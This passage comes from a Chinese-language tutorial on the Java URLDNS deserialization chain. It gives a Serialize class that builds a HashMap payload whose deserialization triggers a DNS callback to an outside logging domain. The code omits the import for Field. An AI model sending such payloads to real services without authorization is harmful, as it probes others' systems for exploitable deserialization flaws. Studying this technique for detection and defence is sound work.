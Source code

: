 这个样子其实就可以了，只运行 Unserialize 类之后查看 DNSLog 平台可以查收到记录，之前那样是收不到的

![alt text](16.png)

再进一步优化一下就是在`hashmap.put(url,1);`之前先把 hashCode 的值改成不为 1，在`hashmap.put(url,1);`再改为-1，这样就更加准确了，代码如下-->

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.net.URL;
import java.util.HashMap;

public class Serialize {
    public static void main(String[] args) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://test.cxsys.spacestabs.top");
        Class<?> clazz = url.getClass();
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url,1);
        hashmap.put(url,1);
        field.set(url,-1);
        outputStream.writeObject(hashmap);
        outputStream.close();
    }
}
```

截图如下

运行 Serialize 类时候 hashCode 的值

![alt text](17.png)

运行 Unserialize 类时候 hashCode 的值

![alt text](18.png)

From Zero To One Close!